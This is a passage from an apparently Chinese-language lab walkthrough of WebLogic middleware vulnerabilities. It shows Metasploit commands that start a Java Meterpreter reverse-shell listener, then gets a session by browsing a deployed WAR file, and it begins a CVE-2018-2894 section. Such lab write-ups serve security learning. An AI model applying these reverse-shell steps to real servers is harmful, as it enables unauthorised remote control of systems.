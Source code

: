 ```
然后kali开始监听
msfconsole	
use exploit/multi/handler
set payload java/meterpreter/reverse_tcp
set LHOST 192.168.15.128
set LPORT 4444
exploit
```

![image-20241119173136708](中间件漏洞/image-20241119173136708.png)	

```
当点击访问java.war的地址，即可得到msf会话。
http://192.168.15.50:7001/java
```

![image-20241121133940056](中间件漏洞/image-20241121133940056.png)		

### CVE-2018-2894

```
启动靶场
```

![image-20241122110619208](中间件漏洞/image-20241122110619208.png)	

```
首先该漏洞是基于已经得知用户设置不严谨，开启了测试页导致漏洞的发生。
首先通过查看靶场日志来获得密码，并登录。
```

![image-20241122110755248](中间件漏洞/image-20241122110755248.png)	
